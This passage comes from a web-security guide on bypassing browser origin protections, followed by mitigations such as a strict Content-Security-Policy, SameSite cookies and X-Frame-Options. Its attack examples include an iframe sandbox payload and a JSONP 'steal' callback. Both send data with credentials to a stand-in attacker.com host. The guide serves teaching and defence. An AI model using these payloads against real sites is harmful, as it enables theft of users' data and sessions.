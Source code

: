 ### Iframe Sandboxing Escape

```html
<!-- When sandbox allows scripts and forms -->
<iframe sandbox="allow-scripts allow-forms" src="data:text/html,<script>fetch('https://attacker.com', {credentials: 'include'})</script>"></iframe>
```

### Exploiting JSONP for Data Exfiltration

```javascript
// When a trusted domain has JSONP
function steal(data) {
  fetch('https://attacker.com/log?data=' + encodeURIComponent(JSON.stringify(data)));
}

var script = document.createElement('script');
script.src = "https://trusted-site.com/api/user?callback=steal";
document.body.appendChild(script);
```

## Mitigation & Best Practices

### Strong CSP Configuration

```
Content-Security-Policy: 
  default-src 'none';
  script-src 'self' 'nonce-{random_value}';
  style-src 'self';
  img-src 'self';
  font-src 'self';
  connect-src 'self';
  frame-src 'none';
  object-src 'none';
  base-uri 'self';
  form-action 'self';
  frame-ancestors 'none';
  upgrade-insecure-requests;
  report-uri https://csp-report-collector.example.com/collector
```

### SOP Hardening

- Implement proper CORS headers
- Use SameSite cookies: `Set-Cookie: session=123; SameSite=Strict; Secure`
- Validate state in cross-origin communications
- Use anti-CSRF tokens
- Implement proper X-Frame-Options: `X-Frame-Options: DENY`

### Development Practices
